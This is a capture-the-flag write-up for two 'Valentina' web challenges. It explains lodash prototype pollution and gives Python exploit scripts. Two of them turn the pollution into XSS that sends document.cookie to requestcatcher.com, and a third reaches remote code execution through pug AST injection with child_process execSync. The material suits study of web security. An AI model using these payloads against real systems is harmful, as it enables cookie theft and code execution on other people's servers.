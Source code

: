 # Valentina 1
Exploit: Prototype Pollution and XSS

The npm library `lodash` is very old - the specific version that Valentina is using is vulnerable to prototype pollution. 

TL;DR - prototype pollution is a JavaScript-soecific vulnerability that abuses prototypal inheritance to poison the base JS object with properties you want. This affects ALL objects.

2 potential ways to solve. 

1. Proto-pollute the `doctype` value of the homepage with an XSS payload, and make Valentina visit the homepage.

```py
import requests

url = "http://localhost:8999/add_review"

payload = "fetch('https://requestcatcher.com/'+document.cookie)"

review = requests.post(url,
                       data='{"__proto__": {"doctype": "HTML> <script>fetch(\"requestcatcher?x=\"+document.cookie)</script"}}', headers={'content-type': 'application/json'})
```

2. Notice that the npm library `xss` was being used to clean potentially harmful input out of user-submitted reviews. You can proto-pollute objects with a `whiteList` property to make the `xss` library ignore potentially harmful characters. Inject XSS into a review and make Valentina visit `/view_review`.

```py
import requests

url = "http://localhost:8999/add_review"

payload = "fetch('https://requestcatcher.com/'+document.cookie)"

review = requests.post(url,
                       data='{"__proto__": {"whiteList": {"script": []}}, "message": "<script>' + payload + '</script>"}', headers={'content-type': 'application/json'})

id = review.text.split(":")[1]

print("http://localhost:8999/view_review?review_id=" + id)
```

# Valentina 2
Exploit: Prototype Pollution and AST injection to achieve RCE

Same deal with lodash. The site has a template engine (pug). You can use prototype pollution to inject [AST](https://en.wikipedia.org/wiki/Abstract_syntax_tree) (via the pug `block` property) during the compile/parse phase of the template engine and achieve RCE.

```python
import requests

TARGET_URL = 'https://valentina.ctf.maplebacon.org'
#TARGET_URL = localhost


requests.post(TARGET_URL + '/add_review', json = {
    "__proto__" : {
            "block": {
                "type": "Text", 
                "line": "process.mainModule.require('child_process').execSync(`echo hello`)"
        }
    }
})
```

This will also work for Val 1.